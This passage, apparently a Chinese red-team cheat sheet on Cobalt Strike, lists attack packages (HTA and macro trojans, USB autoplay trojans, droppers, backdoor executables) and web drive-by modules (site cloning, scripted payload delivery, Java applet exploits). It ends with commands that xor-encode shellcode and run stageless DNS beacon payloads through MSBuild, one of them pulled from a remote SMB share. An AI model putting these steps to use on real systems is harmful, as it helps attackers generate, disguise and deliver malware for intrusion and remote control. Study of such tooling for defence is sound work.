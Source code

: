 ![image](img/215.png)

|名称   |功能   |
| ----------| ----------|
|HTML Application   |基于powershell的.hta格式的HTML Application木马，分为可执行文件、PowerShell、VBA三种方法   |
|MS Office Macro  |office宏病毒文件   |
|Payload Generator   |基于C、C#、COM Scriptlet、Java、Perl、PowerShell、Python、Ruby、VBA等语言的payload   |
|USB/CD AutoPlay   |利用USB/CD自动播放运行的木马   |
|Windows Dropper   |捆绑器   |
|Windows Executable   |生成32位或64位的exe和基于服务的可执行文件、DLL等后门   |
|Windows Executable(S)   |生成可执行文件，支持powershell脚本，提供代理功能   |

	Web Drive-by基于WEB的攻击模块

|名称   | 功能  |
| ----------| ----------|
|Manage   |管理开启的模块  |
|Clone Site   |克隆网站   |
|Host File   |提供文件下载   |
|Scripted Web Delivery   |基于Web的攻击Payload   |
|Signed Applet Attack   |运行java自签名的攻击模块   |
|Smart Applet Attack   |自动检测Java版本并利用已知的exploits攻击   |
|System Profiler   |信息探测模块   |

	自定义payload
	* Attacks > Packages > Payload Generator 
	* Attacks > Packages > Scripted Web Delivery (S)
	$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
	$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
	$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml